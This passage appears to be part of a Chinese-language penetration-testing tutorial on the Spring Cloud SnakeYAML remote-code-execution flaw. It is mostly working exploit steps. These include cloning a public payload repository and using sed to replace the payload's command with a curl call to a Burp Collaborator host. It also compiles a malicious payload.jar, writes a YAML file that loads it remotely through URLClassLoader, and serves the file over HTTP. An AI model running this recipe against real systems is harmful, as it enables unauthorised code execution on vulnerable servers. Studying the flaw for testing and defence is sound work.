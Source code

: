 ```plain
-H 'Content-Type: application/x-www-form-urlencoded'
```

2.x的则是`{"name":"", "value":""}`,header则为:

```plain
-H 'Content-Type: application/json'
```

- - -

#### **1.spring cloud SnakeYAML RCE**

```plain
cd springcloud-snakeyaml-rce
mvn spring-boot:run
```

> -   目标依赖的 `spring-cloud-starter` 版本 \\< 1.3.0.RELEASE
> 
> 现在最新版本3.03,古老的洞了，基本很少遇到，遇到就是好用。

**(1)制作payload.jar文件**

下载payload

```plain
git clone https://github.com/artsploit/yaml-payload.git
cd yaml-payload/src/artsploit
```

替换命令执行内容

```plain
sed -i "" 's/dig scriptengine.x.artsploit.com/curl c0dy0qcncknp8zpb5bir0jvt4kaayz.burpcollaborator.net/g' AwesomeScriptEngineFactory.java
```

编译

```plain
cd ../../
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf payload.jar -C src/ .
```

在该目录生成利用的example.yml文件,内容如下:

```plain
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:9091/payload.jar"]
  ]]
]
```

web服务挂载

```plain
python3 -m http.server 9091
```
